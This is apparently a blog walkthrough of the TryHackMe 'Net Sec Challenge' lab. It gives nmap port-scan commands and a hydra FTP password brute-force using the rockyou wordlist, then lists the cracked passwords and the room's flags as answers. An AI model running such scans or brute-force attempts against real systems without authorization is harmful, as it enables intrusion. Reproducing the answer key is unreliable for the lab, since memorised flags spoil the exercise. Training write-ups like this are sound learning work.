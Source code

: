 ```yaml
---
title:  "THM: Net Sec Challenge"
date:   2024-03-02 22:00:00 +0000
categories: [Network Security]
tags: [Network Security]
---
```

---

![image](/assets/img/Net-Sec-Challenge.png)

---
Ref: 

- [THM: Net Sec Challenge](https://tryhackme.com/room/netsecchallenge)

- [Link](https://www.youtube.com/watch?v=_s2oDTnsb7M)
---

Task 1  
---

1. What is the highest port number being open less than 10,000?
![img](/assets/img/Net-Sec-Challenge01.png)
[Nmap-Port Scan-02](https://szehoyeu.github.io/posts/nmap02-Basic-Port-Scans/)
   ```
   nmap -p1-10000 10.10.150.205
   ```
   ```
   Answer : 8080
   ```
---

2. There is an open port outside the common 1000 ports; it is above 10,000. What is it?
```
nmap -p 10000-65535 10.10.43.179
```
```
Answer : 10021
```

---

3. How many ```TCP``` ports are open?
```
Nmap -sT 10.10.150.205
```
![img](/assets/img/Net-Sec-Challenge03.png)
```
Answer format: 6
```
4. What is the flag hidden in the HTTP server header?
![img](/assets/img/Net-Sec-Challenge04.png)
```
Answer : THM{web_server_25352}
```

5. What is the flag hidden in the SSH server header?
   ![img](/assets/img/Net-Sec-Challenge05.png)
   ```
   Answer : THM{946219583339}
   ```
---

6. We have an FTP server listening on a nonstandard port. What is the version of the FTP server?
![img](/assets/img/Net-Sec-Challenge06.png)
```
Answer : *vsftpd 3.0.3
```

7. We learned two usernames using social engineering: eddie and quinn. What is the flag hidden in one of these two account files and accessible via FTP?
```
hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://10.10.43.179:10021

Eddie=> jordan
Quinn=> andrea
```
![img](/assets/img/Net-Sec-Challenge07.png)
```
Answer : THM{321452667098}
```

---

8. Browsing to http://10.10.150.205:8080 displays a small challenge that will give you a flag once you solve it. What is the flag?

Answer : THM{f7443f99}


```
nmap -sN 10.10.43.179

```

![img](/assets/img/Net-Sec-Challenge08.png)

---



